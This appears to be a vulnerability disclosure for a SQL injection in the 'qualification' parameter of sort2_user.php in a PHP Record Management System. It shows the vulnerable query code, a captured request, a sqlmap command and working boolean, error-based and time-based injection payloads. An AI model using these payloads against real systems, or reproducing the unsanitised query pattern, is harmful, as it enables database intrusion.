 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (sort2_user.php qualification parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 

Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
sort2_user.php 

On this page, qualification parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/sort2_user.php):
```
$qualification=$_POST['qualification'];
$name_query=mysqli_query($conn,"select * from qualification where qualification='$qualification'")or die(mysqli_error());
$query_row=mysqli_fetch_array($name_query);
```
## Proof of vulnerability(Verify using the sqlmap tool):
### Request:
```
POST /Personnel_record_management_system/sort2_user.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 152
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Origin: http://localhost
Referer: http://localhost/Personnel_record_management_system/sort_user.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

filter2=&qualification=Sort+Personnel+by+Qualification
```
#### -> sqlmap -r 1.txt(above request package) --batch
## Output:
```
---
Parameter: qualification (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: filter2=&qualification=Sort Personnel by Qualification' OR NOT 5826=5826#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: filter2=&qualification=Sort Personnel by Qualification' OR (SELECT 7038 FROM(SELECT COUNT(*),CONCAT(0x716b6b7171,(SELECT (ELT(7038=7038,1))),0x717a787a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- lZvV

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter2=&qualification=Sort Personnel by Qualification' AND (SELECT 5404 FROM (SELECT(SLEEP(5)))IPHY)-- kVrK
---
```
